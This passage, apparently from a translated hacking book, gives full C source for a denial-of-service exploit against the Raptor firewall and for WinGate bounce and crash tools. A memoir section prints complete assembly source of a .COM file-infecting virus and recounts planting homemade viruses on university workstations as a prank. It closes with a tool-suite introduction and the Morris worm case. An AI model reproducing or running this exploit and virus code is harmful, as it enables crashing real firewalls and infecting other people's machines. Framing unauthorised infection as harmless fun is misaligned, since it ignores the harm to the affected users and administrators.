Axent Raptor 防火墙（www.axent.com/raptorfirewall）为内部网络、互联网、内部网、移动计算区域以及远程办公室连接提供实时安全保护。Raptor 方案是首个被认证为 Windows NT 的 IPSEC 认证 VPN 服务器的方案。*Secure Computing Magazine* 的评审员给予了 NT 6.5 版本的 Raptor 防火墙满分五星的整体评分，并授予其“最佳购买奖”，重点突出了 Raptor 防火墙优秀的管理控制台（涵盖防火墙和 VPN）、其广泛而灵活的代理范围以及 Checkmark 认证。然而，与其他大多数安全防御机制一样，Raptor 防火墙也易于受到远程攻击。

## 责任范围

### 拒绝服务攻击

**概要：** 此漏洞允许远程攻击者利用 DoS 黑客手段潜在地锁死防火墙。

**黑客状态：** 系统崩溃。

**易受攻击性：** Raptor 6x，取决于配置。

**漏洞利用：** *raptor.c* 中的 DoS 攻击是通过在一个 IP 数据包中未编程的 IP 选项被发送至防火墙实现的。防火墙无法处理这个未知的 IP 选项，导致其停止响应。

raptor.c

```c
#define __FAVOR_BSD
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/in_systm.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <arpa/inet.h>

#define SRC_IP                    htonl(0x0a000001) /* 10.0.0.1 */
#define TCP_SZ                    20
#define IP_SZ                     20
```


```c
NOP,

#define PAYLOAD_LEN 32
#define OPTSIZE 4
#define LEN (IP_SZ + TCP_SZ + PAYLOAD_LEN + OPTSIZE)

void main(int argc, char *argv[]) {
    int checksum(unsigned short *, int);
    int raw_socket(void);
    int write_raw(int, unsigned char *, int);
    unsigned long option = htonl(0x44000001); /* Timestamp, END */
    unsigned char *p;
    int s, c;
    struct ip *ip;
    struct tcphdr *tcp;

    if (argc != 2) {
        printf("Quid custodiet ipsos custodes?\n");
        printf("Usage: %s <destination IP>\n", argv[0]);
        return;
    }
    p = malloc(1500);
    memset(p, 0x00, 1500);

    if ((s = raw_socket()) < 0)
        return perror("socket");

    ip = (struct ip *) p;
    ip->ip_v = 0x4;
    ip->ip_hl = 0x5 + (OPTSIZE / 4);
    ip->ip_tos = 0x32;
    ip->ip_len = htons(LEN);
    ip->ip_id = htons(0xbeef);
    ip->ip_off = 0x0;
    ip->ip_ttl = 0xff;
    ip->ip_p = IPPROTO_TCP;
    ip->ip_sum = 0;
    ip->ip_src.s_addr = SRC_IP;
    ip->ip_dst.s_addr = inet_addr(argv[1]);

    /* Masquerade the packet as part of a legitimate answer */
    tcp = (struct tcphdr *) (p + IP_SZ + OPTSIZE);
    tcp->th_sport = htons(80);
    tcp->th_dport = 0xbeef;
    tcp->th_seq = 0x12345678;
    tcp->th_ack = 0x87654321;
    tcp->th_off = 5;
    tcp->th_flags = TH_ACK | TH_PUSH;
    tcp->th_win = htons(8192);
    tcp->th_sum = 0;

    /* Set the IP options */
    memcpy((void *) (p + IP_SZ), (void *) &option, OPTSIZE);

    c = checksum((unsigned short *) &(ip->ip_src), 8)
        + checksum((unsigned short *) tcp, TCP_SZ + PAYLOAD_LEN)
        + ntohs(IPPROTO_TCP + TCP_SZ);
    while (c >> 16) c = (c & 0xffff) + (c >> 16);
    tcp->th_sum = ~c;

    printf("Sending %s -> ", inet_ntoa(ip->ip_src));
    printf("%s\n", inet_ntoa(ip->ip_dst));

    if (write_raw(s, p, LEN) != LEN)
        perror("sendto");
}

int write_raw(int s, unsigned char *p, int len)
{
    struct ip *ip = (struct ip *) p;
    struct tcphdr *tcp;
    struct sockaddr_in sin;

    tcp = (struct tcphdr *) (ip + ip->ip_hl * 4);

    memset(&sin, 0x00, sizeof(sin));
    sin.sin_family = AF_INET;
    sin.sin_addr.s_addr = ip->ip_dst.s_addr;
    sin.sin_port = tcp->th_sport;

    return (sendto(s, p, len, 0, (struct sockaddr *) &sin,
                   sizeof(struct sockaddr_in)));
}

int raw_socket(void)
{
    int s, o = 1;

    if ((s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0)
        return -1;

    if (setsockopt(s, IPPROTO_IP, IP_HDRINCL, (void *) &o,
                    sizeof(o)) < 0)
        return (-1);

    return (s);
}

int checksum(unsigned short *c, int len)
{
    int sum = 0;
    int left = len;
    while (left > 1) {
        sum += *c++;
        left -= 2;
    }
    if (left)
        sum += *c & 0xff;

    return (sum);
}

/* ###EOF##### */
```

## WinGate

WinGate (www.wingate.net) 是一款代理服务器防火墙软件包，允许联网计算机在共享互联网连接的同时充当防火墙，阻止入侵者访问本地网络。WinGate 通过路由本地网络（家庭或企业）与互联网之间的流量和通信，以及自动为每个联网计算机分配所需的网络地址来工作。WinGate 共享的互联网连接可以是拨号调制解调器、ISDN、xDSL、有线调制解调器、卫星连接，甚至是专用 T1 电路。WinGate 的防护机制以其配置不良而闻名：它们没有将访问限制在本地网络的人员，而是为从 IP 欺骗到大规模 DoS 滥用的各种攻击敞开大门（参见 `wingatebounce.c` 和 `wingatecrash.c`），这通常被称为“开放型 WinGate”。

## 潜在风险

## 拒绝服务攻击

**摘要：** 这些漏洞攻击允许远程攻击者潜在地通过 DoS 攻击使防火墙瘫痪。

**攻击状态：** 系统崩溃。

**受影响版本：** 所有版本。

**利用代码：** `wingatebounce.c`。

```c
wingatebounce.c

#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <stdlib.h>
#include <unistd.h>

#define BUFSIZE 512
#define SOCKSPORT 1080

const char portclosed[] = "socks: Port closed/Permission denied/Something went wrong\n";

int
main (int argc, char **argv)
{
    int listensocket, insocket, outsocket;
    short listenport, destport;
    struct hostent *socks_he, *dest_he;
    struct sockaddr_in listen_sa, socks_sa;
    int sopts = 1, maxfd;
    char buffer[BUFSIZE];
    int length;
    fd_set rfds;

    if (argc != 5)
    {
        printf ("Usage: %s locallistenport sockshost desthost destport\n", argv[0]);
        exit (1);
    }

    if ((socks_he = gethostbyname (argv[2])) == NULL)
    {
        herror ("gethostbyname");
        exit (1);
    }

    memset (&socks_sa, 0, sizeof (struct sockaddr_in));
    memcpy (&socks_sa.sin_addr.s_addr, socks_he->h_addr_list[0], socks_he->h_length);
    if ((dest_he = gethostbyname (argv[3])) == NULL)
    {
        herror ("gethostbyname");
        exit (1);
    }

    /* no need for errorchecking. only fools mess these up */
    listenport = atoi (argv[1]);
    destport = atoi (argv[4]);

    listensocket = socket (AF_INET, SOCK_STREAM, IPPROTO_TCP);
    setsockopt (listensocket, SOL_SOCKET, SO_REUSEADDR, &sopts, sizeof (int));

    memset (&listen_sa, 0, sizeof (struct sockaddr_in));

    listen_sa.sin_port = htons (listenport);
    listen_sa.sin_addr.s_addr = htonl (INADDR_ANY);

    socks_sa.sin_port = htons (SOCKSPORT);

    if (bind (listensocket, (struct sockaddr *) &listen_sa, sizeof (struct sockaddr_in)) == -1)
    {
        perror ("bind");
        exit (1);
    }
    if ((listen (listensocket, 1)) == -1)
    {
        perror ("listen");
        exit (1);
    }

    /* background stuff */
    switch (fork ())
    {
        case -1:
            perror ("fork");
            exit (1);
            break;
        case 0:
#ifndef MYDEBUG
            close (STDIN_FILENO);
            close (STDOUT_FILENO);
            close (STDERR_FILENO);
#endif
            if (setsid () == -1)
            {
                perror ("setsid");
                exit (1);
            }
            break;
        default:
            return 0;
    }

    insocket = accept (listensocket, NULL, 0);
    if (insocket == -1)
    {
        perror ("accept");
        exit (1);
    }
    close (listensocket);
    outsocket = socket (AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if ((connect (outsocket, (struct sockaddr *) &socks_sa, sizeof (struct sockaddr_in))) == -1)
    {
        perror ("connect");
        exit (1);
    }

    snprintf (buffer, 8192, "\x04\x01%c%c%c%c%c%c", (destport >> 8) & 0xFF, destport & 0xFF, /* <-- port */
              (char) dest_he->h_addr[0], (char) dest_he->h_addr[1], (char) dest_he->h_addr[2], (char) dest_he->h_addr[3]); /* <-- ip */

#ifdef MYDEBUG
    for (length = 0; length < 8; length++)
        printf ("%02X:", (unsigned char) buffer[length]);
    printf ("\n");
    for (length = 0; length < 8; length++)
        if (buffer[length] > 'A' && buffer[length] < 'z')
            printf (" %c:", (unsigned char) buffer[length]);
        else
            printf (" *:");
    printf ("\n");
#endif

    /* error checking sucks */
    send (outsocket, buffer, 9, 0);
    recv (outsocket, buffer, 8, 0);

    /* handle errors etc */
    if (buffer[1] == 0x5B)
        send (insocket, portclosed, sizeof (portclosed), 0);

#ifdef MYDEBUG
    for (length = 0; length < 8; length++)
        printf ("%02X:", (unsigned char) buffer[length]);
    printf ("\n");
    for (length = 0; length < 8; length++)
        if (buffer[length] > 'A' && buffer[length] < 'z')
            printf (" %c:", (unsigned char) buffer[length]);
        else
            printf (" *:");
    printf ("\n");
#endif

    maxfd = insocket > outsocket ? insocket : outsocket;
    while (1)
    {
        FD_ZERO (&rfds);
        FD_SET (insocket, &rfds);
        FD_SET (outsocket, &rfds);
        select (maxfd + 1, &rfds, NULL, NULL);
        if (FD_ISSET (insocket, &rfds))
        {
            length = recv (insocket, buffer, sizeof (buffer), 0);
            if (length == -1 || length == 0)
                break;
            if ((send (outsocket, buffer, length, 0)) == -1)
                break;
        }
        if (FD_ISSET (outsocket, &rfds))
        {
            length = recv (outsocket, buffer, sizeof (buffer), 0);
            if (length == -1 || length == 0)
```


break;
if ((send (insocket, buffer, length, 0)) == -1)
break;
}

close (listensocket);
close (insocket);
close (outsocket);
}

## wingatecrash.c

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <stdio.h>
#include <netdb.h>
#include <unistd.h>
#include <netinet/in.h>

main (int argc, char *argv[]) {
int sockfd;
struct sockaddr_in staddr;
int port;
struct hostent *tmp_host;
unsigned long int addr;
int connfd;
int i;

printf("Wingate crasher by holobyte\n<holobyte@holobyte.org>\n\n");
if (argc != 2 && argc != 3) { printf("Usage: %s <wingate> [port[default=23]]\n",argv[0]); exit(1); }
if (argc == 2) { port=23; } else { port=atoi (argv[2]); }
if (!(port > 0 && port < 65536)) { printf("Invalid port\n");
exit(2); }
/* If this returns -1 we'll try to look it up. I don't assume
anyone will be putting in 255.255.255.255, so I'll go with
inet_addr() */

bzero(&staddr,sizeof(staddr));
if ((staddr.sin_addr.s_addr = inet_addr(argv[1])) == -1) {
tmp_host = gethostbyname(argv[1]);
if (tmp_host == NULL) { printf("Could not get valid addr info on %s: tmp_host\n",argv[1]); exit(7); } else {
memcpy((caddr_t *) &staddr.sin_addr.s_addr,tmp_host->h_addr,tmp_host->h_length);
if (staddr.sin_addr.s_addr == -1) { printf("Could not valid addr info on %s: addr -1\n",argv[1]); exit(8); }
}
if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
    perror("Socket"); exit(3); }
    staddr.sin_family = AF_INET;
    staddr.sin_port = htons(port);
    if (connect(sockfd, (struct sockaddr *) &staddr, sizeof(staddr))
< 0) {  perror("Connect"); exit(4); }
    printf("Connected...  Crashing");
    for (i=0;i<100;i++) {
        if ((write(sockfd,"XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",44)) <
0) {  perror("Write"); exit(5); }
        putc('.',stdout);
        fflush(stdout);
}
if (write(sockfd, "\n",1) < 0) {  perror("Final Write"); exit(6); }
putc('\n',stdout);
fflush(stdout);
close(sockfd);
}
```

## 结论

在本书的这一部分，我们一起探讨了针对网关、路由器、互联网服务守护进程、操作系统、代理和防火墙的隐蔽式黑客攻击渗透。书中早期介绍的技术基础，结合无数黑客漏洞秘密，应当有助于你建立必要的安全基础，以便在现实世界中实施你所学到的一切。无论你是计划保护个人 PC、公司网络，还是客户的基础架构，请跟随我进入最终章节，我们将熟悉执行安全黑客分析所需的工具。

## 第六部分

## 黑客的工具箱

## 第四幕

## 黑客的进化

但在那份首次发行的 Underground 软件中，最令我着迷的是磁盘上包含的“食谱”、利用程序和漏洞秘密。你看，这些文件在粗略检查时是不可见的；它们都是隐藏的。而当我说到隐藏时，我的意思不是指通过更改属性来隐藏，而是指深深埋在其他程序文件之中。


> 据我所知，这是包含在此处的信息首次以出版材料的形式披露，并且是在获得 Underground 的许可后完成的。

这些隐藏的程序大多是游戏，是一些文字游戏，它们不会吸引典型的玩家。后来，我意识到了这些文字冒险中的“tiks”，即触发机制。例如，‘‘你发现自己位于北走廊；从东边吹来一阵冷风。地板上躺着一个生锈的旧容器。墙壁因潮湿而渗水。可见方向：北，东’’在这种情境下，需要多个 tiks 才能揭示黑客秘密。在游戏早期，我找到了一块旧布羊皮纸，上面有些潦草的字迹，后来被翻译成一张方向地图。然而，在北走廊中，通过输入：

```text
wipe wall with cloth [RETURN]
get can [RETURN]
squeeze cloth in can [RETURN]
```

正是那样做的结果就是：

密码是多少？

这里的密码很简单。为了到达这一点，我总共输入了三个 tiks。密码的第一部分包含第一行中每个单词的第三个字母。第二部分包含第二行中每个单词的第二个字母，第三部分包含第三行中每个单词的第一个字母。因此，在这种情况下，密码是“pltoeasc”。但这还有更多。

但在深入探讨之前，我想给你展示另一个例子。如果只需要两个 tiks，例如：

```text
wipe wall with cloth [RETURN]
squeeze cloth in can [RETURN]
```

那么密码的第一部分将包含第一行中每个单词的第二个字母，第二部分将包含第二行中每个单词的第一个字母，在这种情况下，我会输入“iailsic”。这种格式在多年来大多数 tiks 中都保持有效；据我所知它现在仍然有效——尽管我怀疑自从更高级的密码学和其他加密方法出现后，情况已有所不同。

回到我提到的“更多？”我指的是 tik 密码中缺失的一环。诀窍是在密码中将每个字母“L”替换为数字“1”，将每个字母“O”替换为数字“0”——而不是在 tiks 本身中。因此，在原始的 tik 输入中：

```text
wipe wall with cloth [RETURN]  
get can [RETURN]  
squeeze cloth in can [RETURN]
```

正确的密码必须以“p1ltoasic”输入。

当我第一次遇到这些隐藏秘密时，我的初步反应是期待和兴奋的混合体。下一个屏幕包含文字黑客文集，其中一些年代久远。以下是一段关于自定义调制解调器优化的摘录：

有了这个电路图和基本工具（包括一个烙铁，以及四五个来自 Radio Shack 的组件），你应该能够去除出现在电脑屏幕上的噪音/垃圾数据。

我开始这个项目是由于使用 US Robotics 2400 波特调制解调器的沮丧，以及在该速度下连接时获得的大量垃圾数据。知道电容是很好的噪音滤波器，我随手组装了这个东西。

这非常易于构建；然而，由于调制解调器类型、线路噪音量、旧或新交换设备（Bell 的设备）以及等等条件不同，情况可能不同。因此，它不一定在所有情况下对你都有效。请在开始之前阅读整条信息，看看你是否理解它。

你将从 Radio Shack 需要：

-   #279-374 模块化线路电缆，如果你还没有一个的话。如果你的电话底座有模块化插头，你就不需要这个。
-   #279-420 模块化表面安装插座（4 或 6 线）。
-   #271-1720 电位器。这是一个 5 K 音频/可变电阻器。
-   #272-1055 电容。任何非极化的 1.0 到 1.5 的电容都可以。应使用纸介、聚酯薄膜或金属膜电容，尽管 #272-996 也可能有效。（272-996 是非极化电解电容）。
-   100 OHM 电阻，四分之一或二分之一瓦特。
-   #279-357 Y 型或双工模块化连接器。在你阅读下面关于连接 Noise Killer 的章节之前，不要购买这个。（A、B 或 C）。

首先，打开模块化块。通常你只用螺丝刀撬开它们。内部你会发现多达 6 根线。非常小心地切掉除了绿色和红色线以外的所有线。你要移除的线应该是黑色、黄色、白色和蓝色。这些线将不需要，并且可能会碍事。因此，尽可能靠近它们进入插头的位置切掉它们。这些线的另一端有一个插入塑料中的叉形接头。拧下并移除这些线的那一端。现在你应该剩下两根线，绿色和红色。将电容的一端焊接到绿色线上，将电容的另一端焊接到电位器的中心接头（这个小东西有三个接头）。将电阻的一端焊接到红色线上。你可能想先缩短电阻的引线。将电阻的另一端焊接到电位器剩余的任意外侧接头——无所谓哪一个。现在，为了收尾，在模块化块的盖子上的开一个孔，让电位器的轴穿过。不要将孔开在正中，因为其他部件可能无法装入模块化块内部。观察部件如何配合以找到孔的位置。


既然你已经制作好了它，现在需要对其进行测试。首先，旋转电位器上的轴直到停止。你稍后才会知道应该朝哪个方向转。现在朝哪个方向都无所谓。你还需要确定在电话线上哪里插入“噪音消除器”。这可以通过以下几种方式之一完成：

- **A.** 如果你的调制解调器背面有两个模块化插口，请使用连接线将噪音消除器连接到其中一个插口。（连接线是用于将电话连接到墙插的直插线缆——通常是银色的）。
- **B.** 如果你的电话是模块化的，你可以在上网后将其电源线从后端拔出，然后将该线插入噪音消除器。
- **C.** 你可能需要购买一个 Y 型模块化适配器。将适配器插入墙插；将调制解调器插入一侧，将噪音消除器插入另一侧。拨打一个已知存在噪音问题的 BBS。当你连接上且开始出现乱码时，按照上述描述将噪音消除器插入电话线。如果你把电位器上的轴朝错误的方向旋转了，你现在就会发现了。你可能会收到大量乱码，甚至断线。如果发生这种情况，请将轴朝另一个方向旋转直到停止，然后重试。如果你在插入噪音消除器后没有注意到太大差别，这可能是一个好兆头。输入几条命令，看看屏幕上是否出现乱码字符。如果仍有乱码，请缓慢旋转轴，直到大部分乱码消失。如果似乎什么都没发生，请从一端缓慢旋转轴到另一端。你应该会在某个时刻收到大量乱码或断线。如果没发生这种情况，请重读此信息，确保你连接正确。

页面底部有一段用于中止并返回游戏的代码序列。在中止时，命令输出字段仅包含导致进入该计时阶段的事件。在这种情况下，我发现自己回到了北部的走廊。在游戏中继续前进，经过另一系列具有特定计时的事件后，额外的屏幕包含了一些最早期病毒之一的源代码，例如这个 20 年前针对 .com 文件感染器的汇编摘录：

```
X86.asm
model tiny
.code
org 100h ; adjust for psp
start:
call get_disp ; push ip onto stack
get_disp:
pop bp ; bp holds current ip
sub bp, offset get_disp ; bp = code displacement
; original label offset is stored in machine code
; so new (ip) - original = displacement of code
save_path:
mov ah, 47h ; save cwd
xor dl, dl ; 0 = default drive
lea si, [bp + org_path]
get_dta:
mov ah, 2fh
int 21h
mov [bp + old_dta_off], bx
; save old dta offs
set_dta:
mov ah, 1ah
lea dx, [bp + dta_filler]
int 21h
search:
mov ah, 4eh
mov cx, [bp + search_attrib]
; find first file
; if successful dta is
lea dx, [bp + search_mask]
int 21h
; created
jnc clear_attrib
; if found, continue
find_next:
mov ah, 4fh
int 21h
; find next file
jnc clear_attrib
still_searching:
mov ah, 3bh
lea dx, [bp + previous_dir]
; cd ..
int 21h
jnc search
jmp bomb
; at root, no more files
clear_attrib:
mov ax, 4301h
xor cx, cx
; get rid of attributes
lea dx, [bp + dta_file_name]
int 21h
open_file:
mov ax, 3D02h
lea dx, [bp + dta_file_name]
int 21h
; AL=2 read/write
xchg bx, ax
; save file handle
; bx won't change from now on
clear_attrib:
mov ax, 4301h
xor cx, cx
; get rid of attributes
lea dx, [bp + dta_file_name]
int 21h
open_file:
mov ax, 3D02h
lea dx, [bp + dta_file_name]
int 21h
; AL=2 read/write
xchg bx, ax
; save file handle
; bx won't change from now on
lea di, [bp + com_com]
lea si, [bp + dta_file_name]
mov cx, 11        ; length of 'COMMAND.COM'
repe cmpsb          ; repeat while equal
jne check_if_infected
jmp close_file
check_if_infected:
mov dx, word ptr [bp + dta_file_size] ; only use first word
; since COM file
; file size - 2
sub dx, 2
mov ax, 4200h
mov cx, 0         ; cx:dx ptr to offset from
int 21h           ; origin of movers
mov ah, 3fh       ; read last 2 characters
mov cx, 2
lea dx, [bp + last_chars]
int 21h
mov ah, [bp + last_chars]
cmp ah, [bp + virus_id]
jne save_3_bytes
mov ah, [bp + last_chars + 1]
cmp ah, [bp + virus_id + 1]
jne save_3_bytes
jmp close_file
save_3_bytes:
mov ax, 4200h     ; 00=start of file
xor cx, cx
xor dx, dx
int 21h
mov ah, 3Fh
mov cx, 3
lea dx, [bp + _3_bytes]
int 21h
goto_eof:
mov ax, 4202h     ; 02=End of file
xor cx, cx        ; offset from origin of move
xor dx, dx        ; (i.e. nowhere)
int 21h           ; ax holds file size
; since it is a COM file, overflow will not occur
save_jmp_displacement:
sub ax, 3		; file size - 3 = jmp disp.
mov [bp + jmp_disp], ax
write_code:
mov ah, 40h
mov cx, virus_length	;*** equate
lea dx, [bp + start]
int 21h
goto_bof:
mov ax, 4200h
xor cx, cx
xor dx, dx
int 21h
write_jmp:			; to file
mov ah, 40h
mov cx, 3
lea dx, [bp + jmp_code]
int 21h
inc [bp + infections]
restore_date_time:
mov ax, 5701h
mov cx, [bp + dta_file_time]
mov dx, [bp + dta_file_date]
int 21h
close_file:
mov ah, 3eh
int 21h
restore_attrib:
xor ch, ch
mov cl, [bp + dta_file_attrib] ; restore original attributes
mov ax, 4301h
lea dx, [bp + dta_file_name]
int 21h
done_infecting?:
mov ah, [bp + infections]
cmp ah, [bp + max_infections]
jz bomb
jmp find_next
bomb:
;	cmp bp, 0
;	je	restore_path		; original run
;---- Stuff deleted
restore_path:
mov ah, 3bh ; when path stored
lea dx, [bp + root] ; '\' not included
int 21h
mov ah, 3bh ; cd to original path
lea dx, [bp + org_path]
int 21h
restore_dta:
mov ah, 1ah
mov dx, [bp + old_dta_off]
int 21h
restore_3_bytes: ; in memory
lea si, [bp + _3_bytes]
mov di, 100h
cld ; auto-inc si, di
mov cx, 3
rep movsb
return_control_or_exit?:
cmp bp, 0 ; bp = 0 if original run
je exit
mov di, 100h ; return control back to prog
jmp di ; -> cs:100h
exit:
mov ax, 4c00h
int 21h
;-------- Variable Declarations --------
old_dta_off dw 0 ; offset of old dta address
;-------- dta record
dta_filler db 21 dup (0)
dta_file_attrib db 0
dta_file_time dw 0
dta_file_date dw 0
dta_file_size dd 0
dta_file_name db 13 dup (0)
;--------
search_mask db '*.COM', 0 ; files to infect: *.COM
search_attrib dw 00100111b ; all files a,s,h,r
com_com db 'COMMAND.COM'
previous_dir  db  '..', 0
root          db  '\', 0
org_path      db  64 dup (0)      ; original path
infections    db  0               ; counter
max_infections db  1
_3_bytes      db 0, 0, 0
jmp_code      db  0E9h
jmp_disp      dw  0
last_chars    db  0, 0            ; do last chars = ID ?
virus_id      db  'AZ'
eov:                    ; end of virus
virus_length  equ  offset eov - offset start
end   start
```

最终，我积累了 2.4 GB 的黑客秘密，并收集了超过 2,000 个知名（以及一些鲜为人知）的恶性感染器的源代码（大约占这 2.4 GB 中的 2 MB）。回顾过去，我认为，成为“秘密社团”一员所带来的兴奋感，加上年轻时的自负，让我在一段时间里忘却了自己的原则，并在大学期间开始扮演黑客角色。计算机中心是学生们进行科研、撰写论文以及在课间休息时聚集的地方。通常，工作站都有排队名单。我习惯性地留意同学们盯着电脑屏幕时的表情——主要看起来都很无聊。正是这一点启发了我的第一次攻击。

作为计算机科学学位的一门选修课，我选择了一门高级编程课，该课程每周上课三天，其中两天在计算机中心举行。我的计划很简单——也是无害的——动机只是制造一些刺激。因为编程是我的强项，我不费吹灰之力就写完了完成课程要求所需的程序，并且我有很多时间来帮助他人以及植入我自制病毒。

进入中心时，每名学生都必须出示身份证，并签署特定工作站的登录表。因此，我无法感染我自己的系统或旁边的系统，于是我将黑客攻击从软盘转移到那些学生做练习时有困难的工作站上。攻击很简单：经过 X 次系统重启（所有计数都存储在隐藏文件中），系统将执行我的病毒，该病毒通常伪装成系统文件。影响通常包括巨大的声音、虚假的屏幕“融化”效果以及图形显示。而且我总是会留下我的签名：病毒先生（Mr. Virus）。

没过多久，大学报纸开始宣传这些攻击。尽管学生们开始期待下一次随机攻击，但管理员们很沮丧，而且完全不知道某人是如何能够不断绕过这个被严密监控且 supposedly 安全的中心的。我持续进行了八周的攻击，每次都比上一次更具想象力，这些攻击成为了无数次讨论的话题。

中心的技术监督人员未能找到隐藏的陷阱，不得不重建每个工作站。最终，我被另一位学生举报，因为他听到我在跟我常混在一起的小组成员说话。在我被“抓获”时，校方通知说我通常的恶作剧会导致我退学；但由于学生和员工都如此享受


攻击，并且由于我的教授们为我辩护，我被允许完成我的课程。不用说，我听取了那个警告。

当时我不知道，关于地下世界“另一面”那场真正疯狂的介绍还未来临。

……待续于：黑客攻击被拒。

## 第12章

### TigerSuite：完整的互连网络安全工具箱

本章的目的是介绍一套可用于促进安全分析的工具套件——用于检查和测试个人电脑及网络，以防范或利用安全漏洞。这里的宗旨是消除安全的神秘感，将其直接带给消费者和/或技术专业人员，那里才是它应有的位置。TigerSuite 的开发旨在提供计算机行业中独特的网络安全工具，这些工具为关注维持网络安全环境的个人、商业组织、网络专业人员和企业管理者所迫切需要。此类安全包括防范针对个人的攻击、外部攻击，以及内部试图查看或利用机密公司或私人信息来损害“受害者”的企图。

在撰写本文时，市场上尚不存在一套完整的安全产品；TigerSuite 是首个在一套软件包中提供完整产品套件的产品。

### 术语定义

但在深入探讨 TigerSuite 的内部工作机制之前，先进行一些定义是有序的，如果你愿意的话，称之为“老虎术语”。

我们首先从确定*老虎团队*的角色开始。最初，老虎团队是由一群受薪专业人士组成的，其目的是渗透边界安全，并测试或分析企业的内部安全策略。这些人入侵计算机系统、电话系统、保险箱等，以帮助他们受雇的公司了解如何重新制定安全策略。

近年来，老虎团队一词演变为指代任何被召集来评估安全问题的官方检查或特别行动团队。老虎团队的一个子集由专业的黑客和破解者组成，他们通过尝试经由网络或看似安全的通信通道进行远程攻击，来测试计算机系统的安全状况。老虎团队也被召集来测试代码的完整性。许多软件开发公司外包此类团队，以便在软件上市前执行严格的动态代码测试。

随着世界日益网络化，企业竞争对手和间谍、心怀不满的员工以及无所事事的青少年更频繁地入侵公司和组织计算机，以窃取信息、破坏职业生涯，或者只是为了制造麻烦。互联网和万维网共同敞开了一个后门，竞争对手和/或黑客可以借此对目标计算机网络发动攻击。根据我自己的经验，似乎大约 85% 连接到互联网的联网网络都易受此类威胁的影响。随着互联网的增长和技术的持续进步，这些入侵变得越来越普遍。简言之，对于任何具有远程连接能力的公司来说，外部威胁都是现实世界中的问题。

基于这些原因，黑客和老虎团队依赖所谓的*老虎盒*来提供揭示安全弱点所需的工具；这种盒子包含专为嗅探、欺骗、破解、扫描和渗透安全漏洞设计的工具。可以说，老虎盒是寻找黑客攻击机制的最终手段。

老虎盒最重要的元素是操作系统基础。一流的 老虎盒采用双启动配置，包括 UNIX 和 Microsoft Windows 操作系统。

目前，针对 Microsoft 操作系统的老虎盒工具包不如其 UNIX 对应物流行，但在这一点上 Windows 正变得更具竞争力。如你已知，UNIX 是由 AT&T 贝尔实验室最初为科学、工程和学术社区开发的强大操作系统。由于其本质，UNIX 是一个多层、多任务环境，既灵活又可移植，并提供电子邮件、网络、编程、文本处理和科学计算功能。多年来，UNIX 演化出两种主要形式（每种都有许多供应商变体）：AT&T UNIX 系统 V 和加利福尼亚大学伯克利的伯克利软件分发版（BSD）。但是，通常配置在老虎盒上的是 Linux，这是一种流行的 UNIX 变体。Linux 提供了对操作系统命令行的直接控制，包括用于软件稳定性和灵活性的自定义代码编译。实际上，本书中的大多数漏洞利用代码都可以使用 Linux 进行编译。

目前，Linux 由许多供应商定制、打包和分发，包括：RedHat Linux (www.redhat.com), Slackware (www.slackware.org), Debian (www.debian.org), TurboLinux (www.turbolinux.com), Mandrake (www.linux-mandrake.com), SuSE (www.suse.com), Trinux (www.trinux.org), MCLinux (www.mclinux.com), LinuxPPC (www.linuxppc.org), SGI Linux (http://oss.sgi.com/projects/sgiunix11), Caldera OpenLinux (www.caldera.com), Corel Linux (http://linux.corel.com), 以及 Stampede Linux (www.stampede.org)。

双启动配置使得在单个老虎盒上启动多个操作系统变得容易。（请注意，Windows 组件应在 Linux 之前安装和配置。）在撰写本文时，最稳定且能力最强的 Windows 版本包括 Windows 98 第二版和世纪版（Windows 2000 版在本书付印时正在测试中）。被认为最灵活且支持性最好的 Linux 版本是 RedHat Linux (www.redhat.com)。并且请注意，在多启动情况下，如果第三方产品“不合拍”，RedHat 安装程序现在提供创建启动软盘（包含已安装内核的副本以及启动系统所需的所有模块）的选项。启动软盘还可以用于加载救援软盘。然后，当需要执行 Windows 时，只需在没有启动软盘的情况下重新启动系统；或者当使用 Linux 时，只需带着启动盘重新启动，瞧，你会看到：

```text
Red Hat Linux release 6.x
Kernel on an i586
login:
```

没有经验的人应使用 PowerQuest 公司的 BootMagic (www.powerquest.com/products/index.html) 等程序，以轻松、无故障地通过图形界面进行多启动设置。

### 使用老虎盒的法律后果

据我所知，第一个明确禁止黑客行为的美国法律是 1986 年的《联邦欺诈和计算机滥用法》，旨在填补此前法律的立法空白。该法第 (a) 款规定，故意未经授权使用计算机并获取信息，以伤害美国或使外国受益，属于重罪。此小节保护任何根据行政命令或法律规定被判定对本国国防或外交关系至关重要的信息。此外，1986 年法案禁止未经授权使用金融记录或消费者报告机构中包含的信息，前提是涉及“联邦利益计算机”。

根据 1986 年法案的第一次成功起诉是*美利坚合众国诉罗伯特·塔潘·莫里斯案*（案号 #774，卷宗 90-1336，美国联邦上诉法院第二巡回法院。1990 年 12 月 4 日辩论，1991 年 3 月 7 日判决），该案涉及典型的黑客犯罪行为及其造成的后果损害。

被告根据第 (a) 款被指控和定罪，该条款规定故意未经授权访问任何“联邦利益”计算机并更改、损坏、销毁或阻止信息的授权使用，从而导致至少 1,000 美元的损失，属于重罪。

1988 年秋，莫里斯是康奈尔大学计算机科学博士项目的第一年研究生。通过他在哈佛大学的本科学习以及各种工作，他积累了丰富的计算机经验和专业知识。当莫里斯进入康奈尔大学时，他在计算机系被分配了一个账户。该账户明确授权他在康奈尔使用计算机。莫里斯与其他研究生进行了关于计算机网络安全性及其渗透能力的各种讨论。

1988 年 10 月，莫里斯开始编写一个计算机程序，后来被称为互联网“蠕虫”或“病毒”。该程序的目标是通过利用莫里斯发现的安全缺陷，展示当前计算机网络安全措施的不充分性。他选择的策略是将蠕虫释放到网络计算机中。莫里斯设计该程序，使其在插入连接到网络的某个计算机位置后，能够扩展到全国性的计算机网络。莫里斯将蠕虫释放到互联网中，互联网是由连接全国各地大学、政府和军事计算机的一组全国网络组成的。该网络允许网络上的计算机之间进行通信和信息传输。

